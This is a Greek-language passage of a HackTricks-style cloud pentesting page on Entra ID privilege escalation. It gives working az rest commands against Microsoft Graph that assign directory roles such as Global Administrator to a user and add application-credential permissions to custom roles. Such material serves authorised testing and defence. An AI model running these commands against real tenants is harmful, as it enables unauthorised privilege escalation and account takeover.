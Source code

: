 # Az - EntraID Privesc

{{#include ../../../../banners/hacktricks-training.md}}

> [!NOTE]
> Σημειώστε ότι **όχι όλες οι λεπτομερείς άδειες** που έχουν οι ενσωματωμένοι ρόλοι στο Entra ID **είναι επιλέξιμες για χρήση σε προσαρμοσμένους ρόλους.**

## Ρόλοι

### Ρόλος: Διαχειριστής Ρόλων Υψηλών Δικαιωμάτων <a href="#c9d4cde0-7dcc-45d5-aa95-59d198ae84b2" id="c9d4cde0-7dcc-45d5-aa95-59d198ae84b2"></a>

Αυτός ο ρόλος περιέχει τις απαραίτητες λεπτομερείς άδειες για να μπορεί να αναθέτει ρόλους σε κύριους και να δίνει περισσότερες άδειες σε ρόλους. Και οι δύο ενέργειες θα μπορούσαν να καταχρηστούν για να κλιμακωθούν τα δικαιώματα.

- Ανάθεση ρόλου σε χρήστη:
```bash
# List enabled built-in roles
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directoryRoles"

# Give role (Global Administrator?) to a user
roleId="<roleId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/directoryRoles/$roleId/members/\$ref" \
--headers "Content-Type=application/json" \
--body "{
\"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
}"
```
- Προσθέστε περισσότερες άδειες σε έναν ρόλο:
```bash
# List only custom roles
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions" | jq '.value[] | select(.isBuiltIn == false)'

# Change the permissions of a custom role
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions/<role-id>" \
--headers "Content-Type=application/json" \
--body '{
"description": "Update basic properties of application registrations",
"rolePermissions": [
{
"allowedResourceActions": [
"microsoft.directory/applications/credentials/update"
]
}
]
}'
```
## Εφαρμογές
